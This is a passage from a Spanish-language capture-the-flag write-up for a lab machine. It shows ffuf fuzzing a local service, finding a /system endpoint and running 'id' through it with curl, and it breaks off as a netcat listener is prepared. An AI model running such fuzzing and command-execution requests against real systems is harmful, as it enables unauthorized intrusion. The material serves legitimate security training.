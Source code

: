 -w: Diccionario a utilizar.
-u: URL a escanear.
-X POST: Enviar peticiones utilizando el método POST.
-mc all: Mostrar páginas con cualquier código de estado HTTP.
-fc 404: Filtrar (ocultar) solo las respuestas con estado 404 (página no encontrada).
─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://127.0.0.1:3001/FUZZ -X POST -fc 404 -mc all

        /'___\  /'___\           /'___\   
       /\ \__/ /\ \__/  __  __  /\ \__/   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/  
         \ \_\   \ \_\  \ \____/  \ \_\   
          \/_/    \/_/   \/___/    \/_/   

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://127.0.0.1:3001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response status: 404
________________________________________________

system                  [Status: 400, Size: 82, Words: 9, Lines: 1, Duration: 12ms]
System                  [Status: 400, Size: 82, Words: 9, Lines: 1, Duration: 7ms]
:: Progress: [220559/220559] :: Job [1/1] :: 6896 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
Copiar
Encontramos el endpoint /system en el puerto 3001 mediante POST con un estado de 400.

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/Cursodex]
└─$ curl http://127.0.0.1:3001/system -X POST -i
HTTP/1.1 400 Bad Request
X-Powered-By: Express
Access-Control-Allow-Origin: *
Content-Type: application/json; charset=utf-8
Content-Length: 82
ETag: W/"52-vyMOWoUgY3ZCkbcRG52YRwnmlLc"
Date: Sun, 21 Sep 2025 23:56:30 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"error":"Se requiere el parámetro \"command\" y parámetros \"args\" válidos."} 
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://127.0.0.1:3001/system -H "Content-Type: application/json" -d '{"command": "id"}'
{"output":"uid=1000(agent) gid=1000(agent) grupos=1000(agent),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)\n","error":""}
Copiar
Nos ponemos a escuchar con netcat en el puerto 8888.
